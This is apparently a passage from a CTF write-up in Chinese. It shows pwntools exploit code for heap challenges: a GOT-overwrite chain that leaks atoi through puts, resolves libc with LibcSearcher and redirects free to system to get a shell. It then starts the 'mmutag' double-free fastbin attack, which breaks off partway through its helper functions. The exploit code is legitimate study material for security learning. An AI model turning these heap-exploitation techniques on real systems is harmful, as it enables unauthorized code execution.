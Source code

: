 ```python

print 'unlink finished'

payload2 = 'a'*0x18 + p64(elf.got['free']) + p64(1) + p64(elf.got['atoi']) + p64(1) + '\n'
edit(2,payload2) # [heap_2] = free_got  [heap_3] = atoi_got
edit(2,p64(elf.plt['puts'])) # [free_got] = puts_plt    if sendline, free's next got(puts) will be changed by 0a
delete(3) # free -> puts so now puts(atoi_got)

print 'got-hacked finished'

atoi_addr = u64(io.recv(6).ljust(8,'\x00'))
obj = LibcSearcher('atoi',atoi_addr) # ubuntu-xenial-amd64-libc6 (id libc6_2.23-0ubuntu10_amd64)
base_addr = atoi_addr - obj.dump('atoi')
sys_addr = base_addr + obj.dump('system')

edit(2,p64(sys_addr)) # free -> system
delete(0)

io.interactive()
```

# mmutag(double free + fastbin attack)

[mmutag](/assets/binary/%E5%88%B7%E9%A2%982/mmutag.zip)

2020西湖论剑

fastbin中直接double free伪造chunk至栈上，需要注意fake chunk的pre_size、size、fd字段的完整性

```python
from pwn import *

io = remote('192.168.135.133',12345)
elf = ELF('./mmutag')
libc = ELF('./libc.so.6')
context.log_level = 'debug'
context.os = 'linux'
context.arch = 'amd64'


def init():
    io.recvuntil('name: \n')
    io.sendline('aaaa')
    io.recvuntil('tag: ')
    p = io.recvuntil(':')[:-1]
    tar = int(p,16)
    return tar
def add(idc,content):
    io.recvuntil('choise:\n')
    io.sendline('1')
    io.recvuntil('id:\n')
    io.sendline(str(idc))
    io.recvuntil('content\n')
    io.sendline(content)
def delete(idc):
    io.recvuntil('choise:\n')
    io.sendline('2')
    io.recvuntil('id:\n')
    io.sendline(str(idc))
def write_buf(content):
    io.recvuntil("choise:\n")
    io.sendline('3')
    sleep(0.5)
```